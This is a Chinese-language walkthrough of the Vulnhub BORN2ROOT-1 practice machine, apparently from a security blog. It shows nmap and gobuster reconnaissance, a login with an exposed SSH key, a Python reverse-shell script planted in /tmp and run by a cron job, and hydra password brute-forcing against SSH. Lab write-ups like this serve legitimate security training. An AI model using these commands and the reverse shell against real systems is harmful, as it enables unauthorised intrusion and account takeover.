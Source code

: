 ```yaml
---
title: Vulnhub 197 BORN2ROOT-1
data: 2017-06-10
---
```


考点：id_rsa,hydra

靶机链接：<https://www.vulnhub.com/entry/born2root-1,197/>
<!--more-->
## 环境配置

| 名称        | IP        |
| ----------- | --------- |
| Kali Linux  | 10.0.2.24 |
| BORN2ROOT-1 | 10.0.2.40 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.40
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42589/udp   status
|   100024  1          44269/udp6  status
|   100024  1          59185/tcp6  status
|_  100024  1          60456/tcp   status
60456/tcp open  status  1 (RPC #100024)

```

### WEB测试

#### 端口80

![1](https://static.iihack.com/vulnhub/197/1.jpg)

获得用户名三个 `martin hadi jimmy`

访问robots.txt获得两个目录

![2](https://static.iihack.com/vulnhub/197/2.jpg)

两个目录都无有用信息

```bash
$ gobuster dir --url http://10.0.2.40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .php 
```

![3](https://static.iihack.com/vulnhub/197/3.jpg)

访问`icons`目录发现目录可访问

![4](https://static.iihack.com/vulnhub/197/4.jpg)

发现ssh登录认证密钥

![5](https://static.iihack.com/vulnhub/197/5.jpg)

## 获得权限

### martin

![6](https://static.iihack.com/vulnhub/197/6.jpg)

这就尴尬了，查一下这个异常报错是因为DSA密钥的问题，可以[修改配置文件](https://www.cnblogs.com/fly2wind/p/15640719.html) 或者ssh登录时加参数 `-o PubkeyAcceptedKeyTypes=+ssh-rsa`

![7](https://static.iihack.com/vulnhub/197/7.jpg)

咋的，还得输入密码，目测是`.bashrc` 加了登录启动脚本，回车一下绕过了，还是看看这个脚本

![8](https://static.iihack.com/vulnhub/197/8.jpg)

下载文件发现`wget`和`curl`都不能用

还是修改`.ssh/config`添加`PubkeyAcceptedKeyTypes +ssh-rsa`

![9](https://static.iihack.com/vulnhub/197/9.jpg)

通过sftp上传`linpeas.sh`和`pspy`

### jinmy

通过`linpeas.sh`发现

![10](https://static.iihack.com/vulnhub/197/10.jpg)

`jimmy`权限每隔五分钟运行`/tmp/sekurity.py`去/tmp目录发现文件不存在，那就新建文件反弹shell了

新建文件`/tmp/sekurity.py` 内容为

```python
import sys, socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.24', 444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

过了几分钟收到反弹shell

![11](https://static.iihack.com/vulnhub/197/11.jpg)

### hadi

```
$ cewl -w pass http://10.0.2.40/

```

看了看，把`martin hadi jimmy`也加到pass里

使用john生成增强字典

```
$ john --wordlist=pass --rules=best64 --stdout >pass2
```

使用hydra爆破用户`hadi`的密码

```
$ hydra -l hadi   -P pass2  -f 10.0.2.40 ssh
```

![12](https://static.iihack.com/vulnhub/197/12.jpg)

## 提权

登录上去发现文件`.gdb_history`应该是直接可以获得root权限

![13](https://static.iihack.com/vulnhub/197/13.jpg)
